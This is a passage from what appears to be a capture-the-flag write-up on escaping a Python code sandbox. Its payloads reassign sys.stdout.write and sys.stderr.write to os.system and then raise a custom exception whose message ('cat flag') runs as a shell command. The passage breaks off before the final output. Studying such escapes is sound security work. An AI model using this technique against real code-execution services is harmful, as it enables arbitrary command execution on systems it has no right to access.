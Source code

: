 ```log
-- Executing safe code:
Traceback (most recent call last):
  File "/home/treebox.py", line 37, in <module>
    exec(compiled)
  File "input.py", line 10, in <module>
__main__.MyException: AAAA
```

Hmmm.. As we can see, our class name `MyException` and our string `AAAA` appear in the output. What if we changed the output function to something more exotic?

```python
class MyException(Exception):
  def __str__(self):
    return 'AAAA'
  def __repr__(self):
    return 'BBBB'

sys.stdout.write=os.system
sys.stderr.write=os.system

raise MyException
--END
```

and the response is:

```log
-- Executing safe code:
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 2: Syntax error: newline unexpected
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 2: Syntax error: newline unexpected
sh: 1: __main__: not found
sh: 1: MyException: not found
sh: 1: AAAA: not found
```

As we can see, both the class name (`MyException`) and our custom string message (`AAAA`) get passed to `sys.stdour.write`, which has now become `os.system`. So, let's change the string message to dump the flag!

```python
class MyException(Exception):
  def __str__(self):
    return 'cat flag'

sys.stdout.write=os.system
sys.stderr.write=os.system

raise MyException
--END
```

and the response is:
